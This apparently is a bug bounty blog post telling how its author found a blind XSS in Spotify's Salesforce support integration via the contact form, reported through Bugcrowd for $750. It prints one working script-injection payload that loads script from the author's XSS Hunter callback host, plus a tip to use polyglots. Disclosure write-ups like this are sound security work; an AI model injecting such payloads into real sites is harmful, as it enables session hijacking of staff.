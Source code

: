 ```yaml
---
layout: post
title: Blind XSS in Spotify's Salesforce integration
---
```


This is the story of an XSS vulnerability I found in Spotify. It could have allowed me to hijack an employee’s session. But first some background.

**What are blind XSS vulnerabilities?**

Blind XSS vulnerabilities are usually persistent XSS. They occur when the attacker’s input is displayed on a page that he doesn’t have acces to. Like feedback or contact us pages.

**How would I know that my payload worked if I can’t see the page?**

Here comes [xss hunter](https://xsshunter.com/) to the rescue! It’s an awesome web app that Matthew Bryant [@IAmMandatory](https://twitter.com/IAmMandatory) built (kudos to him!). It helps a lot in the process of finding blind XSS vulnerabilities. It has a lot of [features](https://xsshunter.com/features) and it gave me the idea of this vulnerability.


Enough talking. Let’s go to the actual story.

Spotify had a contact page where a user can report problems or send suggestions. I sent a question with a very simple XSS payload.
{%highlight html%}
    "><script src=https://mhmdiaa.xss.ht></script>
{%endhighlight%}
After some minutes I got an email from XSS hunter saying that my payload fired! It fired in a Salesforce domain that Spotify used as a support platform. So I reported to Spotify’s team via bugcrowd and asked them to inform Salesforce about it. They replied that the XSS was on their own custom Salesforce integration and has nothing to do with Salesforce and they rewarded me with $750.


Note: When testing for blind XSS, always use polyglots (unless you're dealing with a WAF). You don't know where your payload will land.

I’d like to thank Spotify for the reward and for their cooperation, thank Matthew for the awesome xss hunter and thank bugcrowd for being such a great platform that got many companies into the world of crowd-sourced security.